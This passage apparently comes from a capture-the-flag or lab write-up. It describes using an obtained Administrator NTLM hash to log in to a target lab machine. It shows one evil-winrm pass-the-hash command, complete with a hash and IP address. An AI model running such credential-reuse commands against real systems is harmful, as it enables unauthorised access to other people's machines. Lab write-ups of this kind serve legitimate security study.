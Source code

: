 ![](/assets/img/posts/retro/10.jpg)

At this point, we had successfully obtained the NTLM hash for the Administrator account. With this in hand, I decided to authenticate to the target system using **`evil-winrm`**. Since we have the hash, we can use it for **pass-the-hash** authentication:

```bash
evil-winrm -i 10.10.99.43 -u Administrator -H 252fac7066d93dd009d4fd2cd0368389
```
